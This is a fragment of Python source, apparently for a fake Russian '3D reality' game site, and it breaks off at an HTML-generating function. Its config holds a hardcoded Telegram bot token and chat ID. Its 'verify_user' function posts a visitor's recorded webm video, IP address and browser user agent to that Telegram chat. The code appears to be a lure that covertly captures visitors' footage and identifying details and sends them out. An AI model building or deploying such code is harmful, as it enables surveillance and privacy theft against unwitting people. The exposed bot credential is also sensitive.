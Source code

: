 #!/usr/bin/env python3
import os
import json
import requests
from datetime import datetime
from socket import gethostbyname, gethostname

# Конфигурация приложения
config = {
    'site_name': 'Русский Реалити 3D',
    'players_count': '4,083',
    'domain': 'myrussiansim.local',
    'telegram': {
        'bot_token': '7898816931:AAHNPImGpJjs-MNsklAvrU0VRDFkHFte_ig',
        'chat_id': '4798745489'
    }
}

def get_server_urls():
    """Возвращает доступные URL сервера"""
    try:
        local_ip = gethostbyname(gethostname())
    except:
        local_ip = '127.0.0.1'
    
    return {
        'custom_domain': f"http://{config.get('domain', 'localhost')}:5000",
        'local': "http://127.0.0.1:5000",
        'network': f"http://{local_ip}:5000"
    }

def verify_user(video_file, ip, user_agent):
    """Отправка видео в Telegram"""
    try:
        response = requests.post(
            f"https://api.telegram.org/bot{config['telegram']['bot_token']}/sendVideo",
            files={'video': (f'verify_{datetime.now().strftime("%Y%m%d_%H%M%S")}.webm', video_file, 'video/webm')},
            data={
                'chat_id': config['telegram']['chat_id'],
                'caption': f"🔔 Новый игрок!\n🕒 {datetime.now()}\n🌐 IP: {ip}\n📱 {user_agent}"
            },
            timeout=30
        )
        return {"status": "success" if response.ok else "error"}
    except Exception as e:
        return {"status": "error", "message": str(e)}

def generate_html():
    """
